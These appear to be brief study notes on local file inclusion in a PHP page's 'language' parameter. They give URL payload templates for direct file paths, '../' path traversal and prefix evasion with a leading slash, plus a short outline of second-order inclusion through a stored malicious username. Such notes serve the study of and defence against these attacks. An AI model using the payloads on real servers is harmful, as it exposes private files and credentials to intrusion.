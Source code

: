 
Passing file names into get parameters
```
http://<SERVER_IP>:<PORT>/index.php?language=/PATH/FILE
```

Path traversal with get parameter
```
http://<SERVER_IP>:<PORT>/index.php?language=../../../../PATH/FILE
```

Filename prefix evasion with prepended forward slash
```
http://<SERVER_IP>:<PORT>/index.php?language=/../../../PATH/FILE
```


File Inclusion with usernames via back-end data retrieval
1. Can be done by using malicious username
2. Malicious username stored in database
3. Malicious username can be used to retrieve file data
